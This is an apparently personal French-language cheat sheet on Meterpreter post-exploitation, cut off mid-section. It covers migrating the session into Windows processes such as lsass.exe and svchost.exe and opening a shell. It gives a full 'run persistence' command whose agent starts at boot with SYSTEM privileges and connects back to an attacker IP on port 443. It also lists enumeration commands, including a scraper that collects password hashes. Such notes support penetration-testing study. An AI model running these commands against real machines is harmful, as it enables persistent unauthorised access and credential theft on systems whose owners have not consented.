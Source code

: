 # Meterpreter

Une fois qu'on a une session ouverte avec la cible, on peut :

Obtenir un shell stable :

migrate : Migrer le processus meterpreter vers un processus si possible toujours exécuter sur la cible.

liste des processus vers lesquelles migrer (cherche sur internet pour voir à quoi correspondent-ils):

[explorer.exe](https://www.malekal.com/explorateur-windows-explorer-exe/ "https://www.malekal.com/explorateur-windows-explorer-exe/") ; [svchost.exe](https://www.avast.com/fr-fr/c-what-is-svchost-file "https://www.avast.com/fr-fr/c-what-is-svchost-file") ; [spoolsv.exe](https://recoverit.wondershare.fr/computer/spoolsv-exe.html#:~:text=Le%20spoolsv.exe%20est%20un,d%27attente%20dans%20le%20syst%C3%A8me. "https://recoverit.wondershare.fr/computer/spoolsv-exe.html#:~:text=Le%20spoolsv.exe%20est%20un,d'attente%20dans%20le%20syst%C3%A8me.") ; [services.exe](https://www.processlibrary.com/fr/directory/files/services/24770/ "https://www.processlibrary.com/fr/directory/files/services/24770/") ; [lsass.exe](https://www.malekal.com/lsass-exe/ "https://www.malekal.com/lsass-exe/")

shell : permet d'avoir un shell normal. Comme si je lancais un shell sur windows par exemple.

run persistence : Permet d'avoir un shell persistent qui se reconnecte quand la cible rallume la machine.

- –A switch starts a matching handler to connect to the agent.
- With the -L switch we tell the system where to place the Meterpreter on the target system.
- The –P switch tells the system what payload to use (Windows/Meterpreter/reverse_tcp is the default, so we won’t use this switch).
- -S starts the agent on boot with system privileges.
- The -U switch starts the agent when the user (U) logs on.
- The -x switch starts the agent when the system boots.
- With the –i switch we can indicate the time interval between each connection attempt.
- The -p switch indicates the port, and finally…
- The –r switch indicates the IP address of our ( r ) system running Metasploit.

commande interréssante : run persistence –A –L c:\ -S -X  -i 10 –p 443 –r [192.168.1.113](http://192.168.1.113 "http://192.168.1.113")

Pour tester si ca marche : faire la commande reboot dans meterpreter, si c'est bon, le meterpreter shell va se reconnecter.

Énumérer :

Informations système :

- sysinfo : Informations système de la cible.
- run scraper : Donne des informations variées sur le système cible (service, hash...). Son avantage, c'est qu'il les stocke dans .msf4/logs/script/scraper bien rangé.

Processus :

- getpid : PID (Identifiant de Processus) de la session Meterpreter sur la machine cible.
- ps : Affiche tous les processus en cours (vérifier le PID de Meterpreter).

Sécurité et environnement :
